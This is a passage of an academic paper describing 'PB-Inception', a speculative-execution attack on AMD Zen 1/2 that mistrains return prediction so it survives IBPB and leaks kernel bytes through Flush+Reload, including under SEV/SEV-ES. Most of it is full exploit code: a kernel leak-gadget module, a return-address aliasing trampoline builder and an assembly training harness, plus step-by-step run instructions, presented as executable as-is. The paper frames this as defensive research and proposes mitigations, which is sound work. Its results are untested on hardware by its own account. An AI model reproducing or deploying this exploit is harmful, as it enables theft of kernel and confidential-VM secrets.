\paragraph{Kernel gadget LKM.}
We load a minimal LKM that exports \texttt{pbinc\_dc\_gadget()} and wires three sysfs controls under \texttt{/sys/kernel/pbinc/}: (i) \texttt{probe} (guest-physical base of the shared 1\,MiB probe, ioremapped with \texttt{ioremap\_cache()}), (ii) \texttt{leak} (kernel VA to read the secret byte), and (iii) \texttt{gaddr} (the gadget's kernel VA for alias matching). The gadget performs:
\[
\text{\texttt{val = *leak\_source\_va;\quad writeb(1, probe\_kva + (val << 12));}}
\]
which yields a strong Flush+Reload signal while keeping the architectural path benign.


\paragraph{Return-address aliasing trampolines.}
To bias the return predictor toward \texttt{pbinc\_dc\_gadget}, we JIT-build executable \emph{trampolines} whose \emph{return addresses} (the instruction immediately after a call) share the same low-bit alias class as the gadget (\texttt{ALIAS\_MASK = 0xFFFFF}). We scan an RX region to place 64 trampolines whose post-call RAs satisfy
\[
(\texttt{RA} \ \&\ \texttt{ALIAS\_MASK}) = (\texttt{gaddr} \ \&\ \texttt{ALIAS\_MASK}),
\]
and store their entry pointers in \texttt{\_\_alias\_tbl[64]}.

\paragraph{TTE call cascade.}
User-mode assembly \texttt{pbinc\_entry} executes:
\begin{enumerate}
  \item a forward jump to skip the cascade architecturally
  \item a backward jump \texttt{JE} whose condition is delayed via a load from \texttt{\_\_slow\_predicate\_ptr};
  \item in the mispredicted path, a loop of 64 call instructions, each through \texttt{\_\_alias\_tbl[i]}, pushing colliding RAs and overflowing return prediction state
  \item a \texttt{syscall} to \texttt{getpid} (triggers entry-IBPB).
\end{enumerate}
The cascade is arranged so no call retires, it only perturbs return predictions.

\paragraph{Crossing IBPB and hijacking the first return.}
Linux enters the kernel, executes \texttt{entry\_ibpb} (wrmsr to IBPB), then returns into the regular entry path. On AMD Zen1/2, IBPB does not invalidate return-target predictions; hence the first \texttt{ret} post-IBPB speculates to our gadget. We intentionally target a very early return in the entry path (before stack randomization) to maximize stability and cache-control over the speculation window.

\paragraph{Covert channel and measurement.}
The host (or a separate monitoring thread) performs Flush+Reload over the 1\,MiB probe (256 pages at 4\,KiB spacing). Each speculative byte sets exactly one page hot at offset \texttt{val\,$\ll$\,12}. For runs under SEV / SEV-ES, we allocate the probe page(s) as shared (C-bit=0) and pass the guest-physical base to the LKM via \texttt{/sys/kernel/pbinc/probe}. This preserves the CC threat model while allowing the host to measure cache state.

\subsubsection{Confidential Computing light context (SEV / SEV-ES)}
\label{sec:method:pb-inception:cc}
We verify CC light availability with \texttt{lscpu} flags \texttt{sev} and \texttt{sev-es}. For leakage, the probe buffer must be \emph{unencrypted} (C-bit=0) so that a host Flush+Reload can observe the signal while the victim code and kernel data remain protected at rest. The core mechanism remains speculative and in-core: decrypted instructions/data are processed transiently even under SEV/SEV-ES, and microarchitectural footprints on shared memory are observable.

\subsubsection{Controls and validation}
\label{sec:method:pb-inception:controls}
We validate causality with the following A/B toggles:
\begin{itemize}
  \item \textbf{Mitigation toggle:} disable IBPB-on-entry or add full RSB stuffing at kernel entry $\Rightarrow$ signal vanishes.
  \item \textbf{Gadget toggle:} unload the LKM or point \texttt{leak} to an unmapped address $\Rightarrow$ no hits.
  \item \textbf{Aliasing toggle:} randomize \texttt{ALIAS\_MASK} or build zero trampolines $\Rightarrow$ no hijack.
  \item \textbf{Microarchitecture toggle:} run on non-Zen1/2 AMD or Intel $\Rightarrow$ negative (as expected for PB-Inception).
  \item \textbf{Performance counters:} observe elevated branch-miss and machine-clear events during active runs.
\end{itemize}

\subsubsection{Assumptions, limitations, and ethics}
\label{sec:method:pb-inception:limits}
PB-Inception relies on (i) persistence of return-target predictions across IBPB on AMD Zen1/2, (ii) an early \texttt{ret} after \texttt{entry\_ibpb}, and (iii) availability of a kernel leak gadget. Systems that untrain/stuff the RSB on entry, remove early returns, or alter IBPB application semantics invalidate the preconditions.

\subsubsection{Reproducibility checklist}
\label{sec:method:pb-inception:repro}
\begin{enumerate}
  \item Pin attacker to a single core; record \texttt{/sys/devices/system/cpu/vulnerabilities/spectre\_v2}.
  \item Build and insert the LKM; provision \texttt{probe} (GPA of C-bit=0 buffer), \texttt{leak} (KVA), and read \texttt{gaddr}.
  \item Build user binary with trampolines (64 entries, \texttt{ALIAS\_MASK} tuned to the gadget).
  \item Run \texttt{pbinc\_poc} and start host Flush+Reload over the 1\,MiB probe.
  \item Collect latency histograms. Confirm single-page hits at offsets \texttt{val\,$\ll$\,12}; execute controls in~\S\ref{sec:method:pb-inception:controls}.
\end{enumerate}

\section{Experiments}
Due to a lack of required hardware, we did not conduct empirical measurements for PB-Inception in this project. A functional testbed will be assembled in future work once the components listed in Table~\ref{tab:pbinc-components} have been procured and integrated. This deferral does not affect the methodological analysis; it only postpones end-to-end exploitation and quantitative evaluation.
\clearpage

% wrap-friendly, ragged-right column for tabularx
\newcolumntype{Y}{>{\raggedright\arraybackslash}X}
% slightly denser table look (optional)
\setlength{\tabcolsep}{6pt}
\renewcommand{\arraystretch}{1.15}
\begin{table}[t]
  \centering
  \caption{Planned components for the PB-Inception experimental setup.}
  \label{tab:pbinc-components}
  \begin{tabularx}{\linewidth}{@{} l Y Y c @{}}
    \toprule
    \textbf{Component} & \textbf{Model (link)} & \textbf{Key specs (summary)} & \textbf{Qty} \\
    \midrule
    Motherboard &
      \href{https://www.digitec.ch/de/s1/product/supermicro-h12ssl-i-sp3-amd-soc-atx-mainboard-13904801}
           {Supermicro H12SSL--i (SP3, ATX)} &
      Socket SP3; EPYC 7002/7003 support; server board suitable for IBPB/SEV evaluation & 1 \\
    Memory &
      \href{https://www.digitec.ch/de/s1/product/micron-16gb-ddr4-3200-2rx8-ecc-rdimm-1-x-16gb-3200-mhz-ddr4-ram-dimm-ram-21164557}
           {Micron 16\,GB DDR4-3200 ECC RDIMM (2Rx8)} &
      DDR4--3200; ECC RDIMM; 1\,$\times$\,16\,GB module (expand as needed) & 1 \\
    CPU &
      \href{https://www.galaxus.ch/de/s1/product/amd-epyc-7302p-sp3-3-ghz-16-core-prozessor-13259327}
           {AMD EPYC 7302P} &
      16C/32T; Rome (Zen~2); SP3; suitable for PB-Inception on Zen~1/2 class targets & 1 \\
    \bottomrule
  \end{tabularx}

  \vspace{0.4em}
  \footnotesize\emph{Note.} PSU, chassis, storage, cooling, and a measurement host for Flush+Reload on the shared buffer are assumed but not itemized.
\end{table}

% Put this subsection under experiments
\subsection{Fully glued one-shot PoC (artifact overview)}
For reproducibility and easy migration to the appendix, we summarise the end-to-end harness:

\begin{enumerate}
  \item \textbf{Preflight.} Toolchain sanity, vendor/family checks, mitigation telemetry, ensure \texttt{kptr\_restrict=0} to read \texttt{gaddr}.\cite{linux_srso_doc}
  \item \textbf{Build+load LKM.} Compile and \texttt{insmod} the kernel module, this creates\\ \texttt{/sys/kernel/pbinc/\{probe,leak,gaddr\}}.\cite{wikner2025breaking}
  \item \textbf{Prepare shared probe.} Allocate a 1\,MiB GPA with C-bit=0 and write it to \texttt{/sys/kernel/pbinc/probe}, record \texttt{gaddr}.\cite{wikner2025breaking}
  \item \textbf{Build user binary.} Assemble \texttt{pbinc.asm}, compile \texttt{trampoline.c} (RA-alias builder) and \texttt{driver.c} (wires sysfs $\rightarrow$ ASM), link \texttt{pbinc\_poc}.\cite{wikner2025breaking}
  \item \textbf{Run.} Launch \texttt{pbinc\_poc} pinned to one core with the GVA of the same shared probe, the process executes TTE training $\rightarrow$ \texttt{syscall} (IBPB) $\rightarrow$ spin. Host/helper performs Flush+Reload over 256 pages to recover \texttt{val}.\cite{wikner2025breaking}
\end{enumerate}

\section{Results and Discussion}
\label{sec:results}

\subsection{What the PoC establishes}
Our PoC demonstrates a \emph{constructive} post-IBPB Spectre primitive on AMD Zen~1(+)/2: return-target predictions mistrained in user mode survive a subsequent IBPB and speculatively steer the first \texttt{ret} in the kernel entry path into an attacker-chosen kernel gadget. The gadget encodes one secret byte per invocation into a 1\,MiB probe buffer with a one-hot cache footprint at offset \texttt{val $\ll$ 12}. Although we defer on-hardware measurements, the complete code path, control toggles, and covert-channel design constitute a falsifiable exploitation recipe whose predicted observables are listed below. This section reports component-level correctness, expected end-to-end behaviour and negative controls, based on the artifacts detailed in \S\ref{sec:method:pb-inception:overview}--\S\ref{sec:method:pb-inception:controls}.\cite{wikner2025breaking,trujillo2023inception,linux_srso_doc,linux_rsb_doc}

\subsection{Component-level results (static/constructive)}
\paragraph{Kernel DC leak gadget (LKM).}
The loadable kernel module exports \texttt{pbinc\_dc\_gadget()} and wires three sysfs controls under \texttt{/sys/kernel/pbinc/}: (i) \texttt{probe} to pass the guest-physical base of a shared 1\,MiB probe (ioremapped cached), (ii) \texttt{leak} to set the victim kernel VA, and (iii) \texttt{gaddr} to disclose the gadget VA for alias matching. The gadget performs \texttt{val = *leak\_source\_va; writeb(1, probe\_kva + (val << 12));}, creating a strong Flush+Reload signal while keeping the architectural path benign. This module is minimal by design and cleanly unloads/unmaps on exit.\cite{wikner2025breaking,linux_srso_doc}

\begin{lstlisting}[language=C, caption={PB‑Inception kernel gadget (LKM): sysfs plumbing (\texttt{probe}, \texttt{leak}, \texttt{gaddr}), mapping of a 1\,MiB shared probe via \texttt{ioremap\_cache()}, and \texttt{pbinc\_dc\_gadget()} which transiently reads one kernel byte and encodes it at offset \texttt{(val << 12)}.}, label={lst:pbinc-gadget}]
#include <linux/module.h>
#include <linux/io.h>
#include <linux/sysfs.h>

#define PROBE_SIZE (4096 * 256)

// Mapped kernel VA of the SHARED buffer (mapped via ioremap_cache())
static void __iomem *probe_kva = NULL;

// Physical address of the SHARED buffer (set by user via sysfs)
static phys_addr_t probe_pa = 0;

// Kernel virtual address to read the leaked byte from (set via sysfs)
static void *leak_source_va = NULL;

// PB-Inception Data Cache (DC) Gadget
// Speculatively executed via mispredicted RET
// Loads 1 byte from kernel address (leak_source_va) and
// encodes it into the SHARED probe buffer at [val << 12]
noinline notrace void pbinc_dc_gadget(void)
{
    if (!probe_kva || !leak_source_va)
        return;
    
    // Load the secret byte (must be mapped and readable)
    u8 val = *(volatile u8 *)leak_source_va;
    
    // Encode it into the SHARED probe buffer at offset: val * 4096
    writeb(1, probe_kva + ((size_t)val << 12));
}
EXPORT_SYMBOL_GPL(pbinc_dc_gadget); // Make the gadget address visible via kallsyms/sysfs

// Sets the physical address of the 1 MiB SHARED buffer
// Maps it with ioremap_cache() so the gadget can access it
static ssize_t probe_pa_store(struct kobject *kobj, struct kobj_attribute *attr,
                              const char *buf, size_t count)
{
    kstrtoull(buf, 0, &probe_pa);
    
    // Unmap old region if previously mapped
    if (probe_kva) iounmap(probe_kva);

    // Map the shared physical buffer into kernel VA space
    probe_kva = ioremap_cache(probe_pa, PROBE_SIZE);
    return count;
}

// Sets the virtual address inside the kernel to leak from
// The gadget will read 1 byte from this address transiently
static ssize_t leak_va_store(struct kobject *kobj, struct kobj_attribute *attr,
                             const char *buf, size_t count)
{
    unsigned long tmp;
    kstrtoul(buf, 0, &tmp);
    leak_source_va = (void *)tmp;
    return count;
}

// Returns the virtual address of pbinc_dc_gadget()
// Userland uses this to match low bits for return predictor aliasing
static ssize_t gaddr_show(struct kobject *kobj, struct kobj_attribute *attr, char *buf)
{
    return sprintf(buf, "%px\\n", pbinc_dc_gadget);
}

// Each entry connects a sysfs file to a store/show function
static struct kobj_attribute attr_probe_pa = __ATTR(probe, 0200, NULL, probe_pa_store);
static struct kobj_attribute attr_leak_va  = __ATTR(leak,  0200, NULL, leak_va_store);
static struct kobj_attribute attr_gaddr    = __ATTR(gaddr, 0444, gaddr_show, NULL);

// Group of sysfs attributes under /sys/kernel/pbinc/
static struct attribute *attrs[] = {
    &attr_probe_pa.attr,
    &attr_leak_va.attr,
    &attr_gaddr.attr,
    NULL,
};

// Module cleanup: unmap shared memory and remove sysfs files
static const struct attribute_group attr_group = {
    .attrs = attrs,
};

static struct kobject *kobj;

static int __init pbinc_init(void)
{
    kobj = kobject_create_and_add("pbinc", kernel_kobj);
    return sysfs_create_group(kobj, &attr_group);
}

static void __exit pbinc_exit(void)
{
    if (probe_kva) iounmap(probe_kva);
    kobject_put(kobj);
}

module_init(pbinc_init);
module_exit(pbinc_exit);
MODULE_LICENSE("GPL");
\end{lstlisting}

\paragraph{Return-address aliasing trampolines.}
User space JIT-builds 64 (\texttt{TRAMP\_COUNT}) RX trampolines whose \emph{return addresses} (RAs) share a low-bit alias class with the gadget VA (\texttt{ALIAS\_MASK = 0xFFFFF}). For each candidate stub, we accept only if \((\texttt{RA} \,\&\, \texttt{ALIAS\_MASK}) = (\texttt{gaddr} \,\&\, \texttt{ALIAS\_MASK})\). When executed transiently, calls to these stubs push colliding RAs and bias the return predictor toward the gadget. The builder aborts if it cannot populate all 64 entries, ensuring deterministic setup.\cite{wikner2022retbleed,trujillo2023inception,wikner2023phantom}

\begin{lstlisting}[language=C, caption={Return‑address aliasing trampoline builder: JIT‑creates RX call stubs whose return addresses share \texttt{ALIAS\_MASK} with the kernel gadget, populating \texttt{\_\_alias\_tbl[]} to bias the return predictor for the TTE cascade.}, label={lst:pbinc-tramp}]
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <errno.h>

// Trampoline because: A small piece of code whose only purpose
// is to jump or call into another piece of code -> often while
// managing control flow

// Total number of desired trampolines for return-predictor pressure
#define TRAMPOLINE_COUNT ${TRAMP_COUNT}

// Max number of slots we'll scan to find alias-matching trampolines
#define MAX_SEARCH_ATTEMPTS 4096

// System page size (used to calculate region allocation)
#define PAGE_SIZE 4096

// Size of memory to mmap for trampoline stubs
#define REGION_SIZE (PAGE_SIZE * MAX_SEARCH_ATTEMPTS)

// x86 opcodes
#define RET_OPCODE 0xC3   // ret
#define CALL_OPCODE 0xE8  // call rel32

// Externals patched/shared across PoC
extern uint64_t __pbinc_kernel_gadget_addr;    // Kernel gadget VA
extern uint64_t __alias_tbl[TRAMPOLINE_COUNT]; // Trampoline callsite entry points

// Allow override of alias mask (used to match gadget RA bits)
#ifndef ALIAS_MASK
#define ALIAS_MASK ${ALIAS_MASK}UL // Mask used to match low bits of return address
#endif

////////////////////////////////////////////////////////////////////////////////
// Builds a set of trampolines (CALLSITE stubs) where the return address
// (i.e. the address after the CALL) falls in the same predictor class
// as the kernel gadget. This is the key to PB-Inception predictor pressure.
////////////////////////////////////////////////////////////////////////////////
void *pbinc_create_trampolines(uint64_t gadget_addr) {
    // Allocate RWX memory region for executable trampolines
    uint8_t *region = mmap(NULL, REGION_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC,
                           MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    if (region == MAP_FAILED) {
        perror("mmap"); exit(1); // Bail if mapping fails
    }

    int found = 0; // Track how many aliasing trampolines we found
    for (int i = 0; i < REGION_SIZE - 16 && found < TRAMPOLINE_COUNT; i += 64) {
        uint8_t *tramp = region + i;

        // Compute return address after the call instruction (i.e. target of first RET)
        uint64_t ra = (uint64_t)(tramp + 5);                    // return address after CALL
        
        ////////////////////////////////////////////////////////////////////////////////
        // Return address (RA) = address immediately after the CALL
        // This is the address the CPU will speculate toward when a RET occurs
        //
        // The return predictor (e.g., RSB or BTB) doesn't use full 64-bit VAs.
        // Instead, it indexes using a hash or the low N bits (-> 12-20 bits).
        //
        // The goal is to make RA collide with the kernel gadget's predictor slot,
        // so that speculative RETs in the kernel (post-IBPB) will transiently
        // jump to the gadget -> even though architecturally they shouldn't.
        //
        // Therefore, we apply an ALIAS_MASK to both:
        // ra & ALIAS_MASK -> the return address from the trampoline
        // gadget_addr & ALIAS_MASK -> the address of our kernel gadget
        //
        // If they match: the predictor learns that return addresses in this
        // index class are likely -> this builds pressure toward the gadget.
        //
        // If they don't match: skip this candidate.
        ////////////////////////////////////////////////////////////////////////////////

        if ((ra & ALIAS_MASK) != (gadget_addr & ALIAS_MASK))
            continue;

        tramp[0] = CALL_OPCODE;       // call rel32 (relative target -> 32-bit signed offset) -> ret_stub @ +6
        *(int32_t *)(tramp + 1) = (int32_t)((tramp + 6) - (tramp + 5)); // Calculate rel32 offset for call
        tramp[5] = RET_OPCODE;        // First RET -> returns to RA (alias)
        tramp[6] = RET_OPCODE;        // ret_stub: return to next alias
        tramp[7] = RET_OPCODE;        //Optional RET padding (safe NOP)

        __alias_tbl[found++] = (uint64_t)tramp;   // Save entry point into alias table
    }

    // If we couldn't build enough valid trampolines, exit
    if (found < TRAMPOLINE_COUNT) {
        fprintf(stderr, "[-] Only %d/%d trampolines matched mask 0x%lx (gadget bits 0x%lx)\n",
                found, TRAMPOLINE_COUNT, (unsigned long)ALIAS_MASK,
                (unsigned long)(__pbinc_kernel_gadget_addr & ALIAS_MASK));
        exit(1);
    }
    printf("[+] Built %d trampolines; alias mask 0x%lx\n", found, (unsigned long)ALIAS_MASK);
    return region; // keep region mapped/executable
}
\end{lstlisting}

\paragraph{Training-in-Transient-Execution (TTE) call cascade.}
The assembly harness \texttt{pbinc\_entry} executes a forward skip, then a backward \texttt{JE} whose predicate is delayed by reading from \texttt{\_\_slow\_predicate\_ptr}. In the mispredicted path, it issues a loop of 64 \texttt{call} sites via \texttt{\_\_alias\_tbl[i]}; none of these calls retire architecturally. This strictly-transient cascade overflows and biases return prediction state without observable architectural side effects.\cite{trujillo2023inception}

\begin{lstlisting}[language={[x86masm]Assembler}, caption={Training‑in‑Transient‑Execution harness (\texttt{pbinc\_entry}): a backward‑mispredicted \texttt{JE} opens a speculative window to issue 64 calls via \texttt{\_\_alias\_tbl}, then a \texttt{syscall} crosses the IBPB boundary and the thread parks in a spin loop.}, label={lst:pbinc-asm}]
global pbinc_entry
extern __pbinc_kernel_gadget_addr     ; From C driver: patched with KVA of kernel gadget
extern __pbinc_probe_shared           ; From C driver: VA of shared probe buffer (1MB)
extern __alias_tbl                    ; Runtime-patched: array of 64 callsite trampoline entry pointers
extern __slow_predicate_ptr           ; Runtime: mapped slow memory (used to delay JE resolution)

section .text

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Entry point for the PB-Inception userland training harness
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
pbinc_entry:
    call pre_ibpb_transient_train   ;Run transient training before IBPB
    mov  rax, 39                    ; getpid -> syscall entry (IBPB boundary)
    syscall                         ; Cross IBPB boundary (causes entry-IBPB in guest)
.spin:
    pause                           ; Not kill threat -> inf loop -> keep-alive threat
    jmp  .spin

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Pre-IBPB transient training block
; - Uses a backward mispredicted JE to speculatively execute call cascade
; - No call here retires (training must be transient-only)
; => 64 calls -> return predictor pressure
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
pre_ibpb_transient_train:
    jmp  .do_branch                ; Skip call cascade architecturally (forward jump)
                                   ; Under normal (architectural) execution, the call cascade never runs
                                   ; Means if the "normal" paths are taken it wouldnt run

.speculative_call_cascade:
    mov  rsi, [rel __alias_tbl]    ; Load pointer to trampoline entry array (call sites)
    mov  ecx, 64                   ; Number of transient call targets
.alias_loop:
    call qword [rsi]               ; Speculative CALL -> pushes RA to stack -> biases return predictor
    add  rsi, 8                    ; Trampolines are crafted to have return addresses that alias the kernel gadget
    dec  ecx                       ; Advance to next entry in trampoline table
    jnz  .alias_loop               ; Loop until all 64 calls are issued -> until z-flag not 0
    ret

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Branch predicate that keeps JE unresolved long enough to execute the cascade
; - Must not use lfence -> all memory loads before lfence must complete -> not speculatively run anymore
; - The memory at __slow_predicate_ptr should be slow (uncached / fault-suppressed / mapped to delay)
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
.do_branch:
    mov  rdx, [rel __slow_predicate_ptr]  ; runtime: slow mapped memory
    mov  rax, [rdx]
    cmp  rax, 0xdeadbeef
    je   .speculative_call_cascade        ; backward Jcc (target above)
    ret

section .data
__pbinc_kernel_gadget_addr: dq 0           ; Patched at runtime: VA of kernel gadget (used to derive alias class)
__pbinc_probe_shared:       dq 0           ; Patched at runtime: guest VA of SHARED probe buffer (1 MiB)
__alias_tbl:                times 64 dq 0  ; Table of 64 trampoline entry VAs (callsite-aligned, RA aliasing gadget)
__slow_predicate_ptr:       dq 0           ; Points to mapped slow memory to delay JE resolution
; Slow memory because: Because we want the CPU to speculate into the training block before it knows whether the branch
; is actually taken or not.
\end{lstlisting}

\paragraph{Crossing IBPB and hijacking the first return.}
A subsequent \texttt{syscall} (\texttt{getpid}) causes the kernel to execute \texttt{entry\_ibpb} (wrmsr to IBPB) early in the entry path. On Zen~1/2, return-target predictions persist across IBPB, so the first post-IBPB \texttt{ret} speculates to \texttt{pbinc\_dc\_gadget} before normal control flow is recovered. The harness targets an early \texttt{ret}, increasing stability and channel strength.\cite{wikner2025breaking,amd_srso_whitepaper,linux_srso_doc}

\paragraph{Covert channel and measurement.}
The probe buffer is guest-mapped but backed by guest-physical pages with C-bit cleared (C-bit=0) and ioremapped cached in the kernel. Each leaked byte heats exactly one 4\,KiB page at offset \texttt{val $\ll$ 12}. A host or helper thread can recover the symbol via Flush+Reload over the 256-page probe, while the victim code and other kernel data remain encrypted at rest under SEV/SEV-ES.\cite{linux_srso_doc}

\subsection{Expected end-to-end behaviour}
With \texttt{TRAMP\_COUNT}=64 and a correctly tuned \texttt{ALIAS\_MASK}, a single user$\rightarrow$kernel transition is sufficient to speculatively execute the gadget and encode one byte per event. The predicted measurement is a unimodal latency minimum on exactly one probe page matching the secret byte. Perf-level telemetry during active runs should show elevated branch misses and machine clears compared to an idle baseline. All of these predictions follow directly from the code paths and the attacker-controlled timing of the transient window.\cite{wikner2025breaking}

\begin{landscape}
\begin{table}[p]
  \centering
  \caption{A/B validation matrix: each toggle isolates a necessary precondition.}
  \label{tab:controls}
  \setlength{\tabcolsep}{8pt}
  \renewcommand{\arraystretch}{1.15}
  % l l l = three compact columns; last column wraps (\RaggedRight X)
  \begin{tabularx}{\linewidth}{@{} l l l >{\RaggedRight\arraybackslash}X @{}}
    \toprule
    \textbf{Toggle} & \textbf{Setting A} & \textbf{Setting B} & \textbf{Expected observation} \\
    \midrule
    IBPB/RSB on entry   & IBPB-on-entry, no RSB stuffing & IBPB + full RSB stuffing &
      Signal present in A; vanishes in B. \\
    Gadget availability & \texttt{pbinc\_dc\_gadget} loaded & LKM unloaded or \texttt{leak} unmapped &
      Signal present in A; no hits in B. \\
    Aliasing pressure   & 64 aliasing trampolines & Zero trampolines / random mask &
      No hijack in B; page hits disappear. \\
    Microarchitecture   & AMD Zen~1/2 (Fam.~17h) & Non-Zen~1/2 AMD or Intel &
      Negative on B (as designed). \\
    CC mapping          & Probe C-bit=0 (shared) & Probe encrypted (C-bit=1) &
      Host-side Flush+Reload works only in A. \\
    \bottomrule
  \end{tabularx}
\end{table}
\end{landscape}


\vspace{-0.5em}

\subsection{Negative results, failure modes, and robustness}
\emph{Aliasing miss.} If \texttt{ALIAS\_MASK} is poorly chosen or insufficient trampolines are found, the bias toward the gadget collapses; our builder aborts when it cannot fill 64 entries.  
\emph{Mitigation interference.} RSB stuffing on entry or removal of early \texttt{ret} sites defeats the primitive by clearing or bypassing the poisoned state.  
\emph{CC plumbing errors.} If the probe is encrypted (C-bit=1), host-observable Flush+Reload fails even though intra-core speculation still occurs, the mitigation appears indistinguishable from a negative microarchitectural result without local timing.  
\emph{Noise sources.} Competing activity on the same core, TLB shootdowns, and unrelated I-cache fills reduce the transient window, pinning and isolating the core stabilise outcomes. All of these behaviours are anticipated by the harness design and control toggles in \S\ref{sec:method:pb-inception:controls}.\cite{linux_srso_doc,linux_rsb_doc,wikner2025breaking}

\subsection{Implications for confidential computing light (SEV/-SEV-ES)}
SEV/SEV-ES ensures memory confidentiality at rest and in transit, it does not preclude in-core transient execution on decrypted lines. Our PoC respects the CC threat model (no architectural compromise, no key disclosure) yet still exfiltrates one byte per entry by writing into a deliberately shared (unencrypted) buffer. Consequently, CC deployments that depend solely on IBPB-on-entry on Zen~1/2 remain vulnerable to PB-Inception unless they add RSB sanitisation or remove early returns on kernel entry. The result is consistent with our methodology and artifact semantics in \S\ref{sec:method:pb-inception:cc}.\cite{wikner2025breaking,linux_srso_doc}

% Integrate it to Results and Discussion
% How to run markdown -> on github
\subsection{Future Work}
We plan on performing tests on physical AMD hardware. To build the environment we plan on using a Supermicro H12SSL-i mainboard, Micron 16GB DDR4-3200 2RX8 ECC RDIMM memory and AMD EPYC 7302P CPU for a total cost of around 1200 CHF. Once built, this will allow us to perform controlled testing and acquire quantitative data.

\subsection{Summary}
Even without hardware measurements, the PoC provides a complete, auditable chain from predictor poisoning (TTE) through a post-IBPB return hijack to a high-SNR cache channel, together with A/B controls that make the mechanism falsifiable. The security implication is sharp: on Zen~1/2, IBPB-on-entry alone is insufficient software must also sanitise return prediction state on privilege transitions or remove susceptible early returns. These statements follow directly from the code paths and the end-to-end harness described here and in \S\ref{sec:method:pb-inception:overview}--\S\ref{sec:method:pb-inception:controls}.\cite{wikner2025breaking,trujillo2023inception,linux_srso_doc,linux_rsb_doc}


\section{Conclusion}
\label{sec:conclusion}

This work systematizes and instantiates a \emph{post–IBPB} speculative–execution primitive on AMD Zen~1(+)/Zen~2 that we call \textsc{PB-Inception}. We show that return–target predictions mistrained immediately before an IBPB can persist across the barrier and transiently steer the first \texttt{ret} on kernel entry to a minimal, auditable data–cache gadget. Our constructive pathway trains entirely in transient execution, crosses a user$\rightarrow$kernel boundary that executes \texttt{entry\_ibpb}, and encodes one secret byte per entry into a 1\,MiB probe buffer, yielding a high-SNR signal that is easy to validate with standard Flush+Reload. We further demonstrate how the primitive composes with SEV/SEV-ES without violating the Confidential Computing light (CC light) threat model: data remain encrypted at rest/in transit while in-core transient effects on shared, unencrypted buffers remain observable.

From a defensive standpoint, the takeaway is sharp: on Zen~1/2, \emph{IBPB-on-entry alone is insufficient}. Practical deployments must additionally sanitize return prediction on privilege transitions (e.g. RSB stuffing or untrained returns) or eliminate early \texttt{ret} sites along the entry path. These requirements are consistent with current kernel guidance and put control in software when microcode lacks stronger post-barrier semantics.

\paragraph{Implications.}
\begin{itemize}
  \item \textbf{Privilege transitions.} Sanitizing return prediction on user$\rightarrow$kernel entry closes the narrow but reliable post-IBPB window we exploit. When enabled, RSB stuffing/untrained returns remove our speculative landing path; when disabled, the signal reappears.
  \item \textbf{Entry-path engineering.} Removing or delaying early \texttt{ret} sites after \texttt{entry\_ibpb} reduces exploitable targets and shortens the speculation window. Auditing these paths should be part of standard hardening on Zen~1/2 systems that rely on IBPB.
  \item \textbf{CC deployments.} SEV/SEV-ES protects confidentiality at rest and in transit but does not preclude in-core transient execution on decrypted lines. CC operators should pair IBPB with return–prediction hygiene and avoid shared (C-bit\,$=0$) mappings unless strictly necessary.
\end{itemize}

\paragraph{Limitations and scope.}
Our artifact is intentionally minimal and auditable; it targets AMD Family~17h (Zen~1/2), assumes an early post-IBPB \texttt{ret}, and requires a reachable leak gadget to produce a measurable cache footprint. While we defer on-hardware measurements, the PoC exposes clear observables and includes A/B toggles (mitigations, aliasing pressure, gadget presence, microarchitecture) to falsify causality and guard against confounders. Extending the evaluation to additional microarchitectures and mitigation profiles is a natural next step.

\paragraph{Outlook.}
We provide a reproducible blueprint, kernel gadget, user-space training harness, CC plumbing, and controls, so third parties can independently confirm or refute our findings on suitable Zen~1/2 systems. In parallel with empirical measurements, we advocate for (i) default pairing of IBPB with RSB sanitization on affected systems, (ii) entry-path reviews that remove early \texttt{ret} sites, and (iii) exploration of microcode options that harden post-barrier return prediction. Together these measures close the seam that \textsc{PB-Inception} exploits while preserving deployment practicality.

\section*{Acknowledgements}
This work benefited from the guidance and support of several colleagues. We thank \textbf{G\"urkan G\"ur} for supervising the project, \textbf{Jennifer Studer} for advising on the structure of the manuscript, \textbf{J\'erome Cristiano} for assistance with naming the exploit, and \textbf{Antonia Hinkerohe} for targeted feedback on specific chapters.

\section{List of figures}
\renewcommand{\listtablename}{}
\listoftables

\bibliography{refs}

\section{Appendix}
This appendix provides the two user‑space artifacts that “glue” the PoC together. 
Listing~\ref{lst:driver} is the minimal driver that wires sysfs $\rightarrow$ 
trampoline builder $\rightarrow$ ASM entry. It (i) pins the process for stability, 
(ii) reads the kernel gadget VA from \texttt{/sys/kernel/pbinc/gaddr}, 
(iii) builds aliasing trampolines and provisions the slow predicate buffer, and 
(iv) invokes \texttt{pbinc\_entry()} to trigger the entry–IBPB transition.

Github repository \cite{spectroscopic} is the one‑shot harness that reproduces the full setup: 
it builds/loads the kernel gadget LKM, compiles the user components (ASM, trampoline 
builder, driver), wires sysfs, and launches the PoC pinned to a core. This listing is 
intended to be executable as‑is on a suitable AMD Zen~1/2 platform under the conditions 
outlined in the methodology and controls sections.

\begin{lstlisting}[language=C,caption={User-space driver for PB-Inception: wires sysfs, builds aliasing trampolines, provisions slow predicate, and triggers the IBPB boundary via \texttt{pbinc\_entry()}.},label={lst:driver}]
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sched.h> // For CPU pinning
#include <unistd.h>
#include <errno.h>

#define TRAMPOLINE_COUNT 64 // Number of speculative callsite trampolines

// Extern symbols from the ASM file and trampoline builder
